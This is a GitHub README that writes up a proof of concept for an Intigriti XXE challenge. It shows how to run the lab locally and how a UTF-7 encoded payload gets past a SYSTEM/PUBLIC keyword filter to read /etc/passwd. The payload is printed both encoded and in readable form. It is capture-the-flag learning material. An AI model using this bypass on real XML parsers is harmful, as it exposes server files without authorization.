

## Initigriti XXE challenge POC

```
git clone https://github.com/rogueloop/intigriti-xxe-challenge.git
cd intigriti-xxe-challenge
php -S localhost:8000
```
Open `http://localhost:8000/xml_parser.php`
## challenge 


## Solution 

The code has a sanitation for common XML keywords like SYSTEM and PUBLIC. We can use the utf 7 encoded payload from the intigriti article on XXE. The payload fetches the local file `/etc/passwd` from the server.
Make small changes to the payload change post_title to title and post_desc to desc. Since `+ACA-` is used for space in utf-7 the space between the `' SYSTEM '` will be filled so the match will fail. 

Payload used: 

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADw-+ACE-DOCTYPE+ACA-data+ACA-+AFs-+AAo-+ACA-+ACA-+ADw-+ACE-ENTITY+ACA-xxe+ACA-SYSTEM+ACA-+ACI-file:///etc/passwd+ACI-+AD4-+AAo-+AF0-+AD4-+AAo-+ADw-data+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-post+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-title+AD4-+ACY-xxe+ADs-+ADw-/title+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-desc+AD4-xyz+ADw-/desc+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-/post+AD4-+AAo-+ADw-/data+AD4-
```

Article link : https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-advanced-xxe-vulnerabilities#:~:text=Exploiting%20XXE%20via%20UTF%2D7%20encoding 

Results: 



Here is a readable form of the payload: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
    <post>
        <title>&xxe;</title>
        <desc>xyz</desc>
    </post>
</data>
```
